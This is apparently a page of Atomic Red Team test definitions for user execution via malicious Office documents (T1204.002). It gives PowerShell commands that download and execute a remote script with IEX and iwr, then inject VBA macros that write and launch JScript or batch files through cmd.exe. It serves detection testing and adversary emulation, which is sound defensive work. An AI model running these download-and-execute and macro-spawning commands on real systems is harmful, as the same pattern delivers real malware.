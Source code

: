 
Atomic Test #4 - OSTAP JS version
Malicious JavaScript executing CMD which spawns wscript.exe //e:jscript Execution is handled by Invoke-MalDoc to load and execute VBA code into Excel or Word documents.

Supported Platforms: Windows

auto_generated_guid: add560ef-20d6-4011-a937-2c340f930911

Inputs:
Name	Description	Type	Default Value
jse_path	jse file to execute with wscript	path	C:\Users\Public\art.jse
ms_product	Maldoc application Word or Excel	string	Word
Attack Commands: Run with powershell!
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   a = Shell(`"cmd.exe /c wscript.exe //E:jscript #{jse_path}`", vbNormalFocus)`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
Dependencies: Run with powershell!
Description: Microsoft #{ms_product} must be installed
Check Prereq Commands:
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Get Prereq Commands:
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"


Atomic Test #5 - Office launching .bat file from AppData
Microsoft Office creating then launching a .bat script from an AppData directory. The .bat file launches calc.exe when opened.

Supported Platforms: Windows

auto_generated_guid: 9215ea92-1ded-41b7-9cd6-79f9a78397aa

Inputs:
Name	Description	Type	Default Value
bat_path	Path to malicious .bat file	string	$("$env:temp\art1204.bat")
ms_product	Maldoc application Word or Excel	string	Word
Attack Commands: Run with powershell!
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{bat_path}`" For Output As #1`n   Write #1, `"calc.exe`"`n   Close #1`n   a = Shell(`"cmd.exe /c #{bat_path} `", vbNormalFocus)`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct #{ms_product}
Cleanup Commands:
Remove-Item #{bat_path} -ErrorAction Ignore
Get-Process | Where-Object { $_.MainModule.FileName -like "*calculator*" } | Stop-Process
Dependencies: Run with powershell!
Description: Microsoft #{ms_product} must be installed
Check Prereq Commands:
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Get Prereq Commands:
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
